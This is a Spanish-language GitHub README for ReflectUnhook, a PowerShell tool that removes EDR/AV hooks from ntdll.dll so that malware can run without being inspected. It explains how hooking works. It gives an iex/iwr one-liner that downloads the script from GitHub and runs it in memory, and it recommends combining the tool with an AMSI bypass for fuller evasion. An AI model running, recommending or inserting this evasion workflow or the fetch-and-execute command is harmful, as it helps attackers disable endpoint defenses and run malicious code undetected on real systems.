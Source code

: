 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/ReflectUnhook/blob/main/LICENSE)
[![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)
[![YouTube](https://img.shields.io/badge/YouTube-%23FF0000.svg?logo=YouTube&logoColor=white)](https://www.youtube.com/@MalwarebitTeam)

| Español | [English](https://github.com/BlackShell256/ReflectUnhook?tab=readme-ov-file)  |
| --- | --- |

# ReflectUnhook
ReflectUnhook es una herramienta avanzada escrita en PowerShell que utiliza Reflection para acceder a la API de Windows y funciones de bajo nivel. Esta herramienta se enfoca en limpiar los hooks presentes en el módulo ntdll.dll de la memoria, restaurando su estado original mediante la lectura de ntdll.dll directamente desde el disco.

---

## ¿Qué son los hooks?

Las herramientas de detección y respuesta en endpoints (EDR) emplean una técnica llamada hooking para supervisar funciones críticas del sistema en las DLL de los procesos que están en ejecución. El hooking consiste en modificar dinámicamente las DLL del sistema en memoria, lo que permite a los EDR interceptar y analizar el flujo de ejecución de un programa para evaluar si su comportamiento es legítimo o malicioso.

El proceso funciona de la siguiente manera: los EDR alteran las instrucciones iniciales de ciertas funciones dentro de las DLL. Cuando estas funciones son llamadas, el flujo de ejecución del programa es desviado hacia el código del EDR, que generalmente reside en una DLL propia cargada en el proceso. Una vez redirigido, el EDR examina los parámetros de las funciones interceptadas para determinar si están siendo utilizadas de manera segura o potencialmente peligrosa. Si se considera que la operación es legítima, el EDR permite que el programa retome su flujo normal de ejecución y la función se completa sin interrupciones.

Para evadir la detección de un EDR, los atacantes pueden recurrir a una técnica conocida como unhooking. Este método restaura el contenido de la sección de código (.text) de la DLL afectada a su estado original, eliminando cualquier modificación realizada por el EDR. Con esto, el malware puede ejecutar sus funciones sin ser interceptado ni analizado.
<br><br><ins>Funcion hookeada</ins><br><br>
![image](https://github.com/user-attachments/assets/eed6af23-3e04-430c-962d-5474edc3a739)
<br><br><ins>Funcion limpia luego de ejecutar ReflectUnhook</ins><br><br>
![image](https://github.com/user-attachments/assets/6da4d13f-489f-4736-b9f4-d0ad18e79eb8)

---

## Características principales

- **Reflection**: Permite acceder a funciones de bajo nivel de la API de Windows sin necesidad de tocar el disco usando el comando (Cmdlet) "Add-Type".
- **Eliminación de hooks**: Limpia los hooks en `ntdll.dll` utilizados por soluciones AV/EDR.
- **Lectura desde el disco**: Recupera el estado original del módulo directamente desde su archivo en el sistema.

---

## Uso
Para utilizar ReflectUnhook, ejecute los siguientes comandos:

Con este comando ejecutaremos ReflectUnhook en memoria 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/ReflectUnhook/refs/heads/main/ReflectUnhook.ps1)
```
Para ejecutar
```
Invoke-ReflectUnhook
```
Para obtener información detallada sobre la herramienta
```
Invoke-ReflectUnhook -v
```

### Ejemplo de uso
![image](https://github.com/user-attachments/assets/8a69184a-08ab-4115-9ac7-0d19ea4c56d1)

---

Recomiendo usar ReflectUnhook + bypass de amsi para una evasion mas completa, puede usar [Null-AMSI](https://github.com/BlackShell256/Null-AMSI) (Mi herramienta personalizada de AMSI Bypass) o alguna de su preferencia

---

## Créditos

* Parte del código de Reflection lo aprendí de Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Gran parte del código es de la herramienta Invoke-ReflectivePEInjection de PowerSploit. [Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
